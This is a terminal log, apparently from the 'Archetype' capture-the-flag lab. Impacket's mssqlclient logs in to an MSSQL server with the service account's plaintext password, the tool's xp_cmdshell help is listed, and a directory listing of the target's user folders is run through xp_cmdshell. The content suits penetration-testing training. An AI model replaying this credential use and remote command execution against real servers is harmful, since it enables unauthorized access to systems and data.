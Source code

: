 [*] Encryption required, switching to TLS
[-] ERROR(ARCHETYPE): Line 1: Login failed for user 'ARCHETYPE\Guest'.
                                                                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ python3 impacket/examples/mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@archetype -windows-auth

└─$ python3 impacket/examples/mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@archetype -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
     


The system cannot find the path specified.                                         

NULL                                                                               

SQL> xp_cmdshell dir c:\users\
output                                                                             

--------------------------------------------------------------------------------   

 Volume in drive C has no label.                                                   

 Volume Serial Number is 9565-0B4F                                                 

NULL                                                                               

 Directory of c:\users                                                             

NULL                                                                               

01/19/2020  04:10 PM    <DIR>          .                                           

01/19/2020  04:10 PM    <DIR>          ..                                          

01/19/2020  11:39 PM    <DIR>          Administrator                               

01/19/2020  11:39 PM    <DIR>          Public                                      

01/20/2020  06:01 AM    <DIR>          sql_svc                                     

               0 File(s)              0 bytes                                      

               5 Dir(s)  10,715,082,752 bytes free                                 
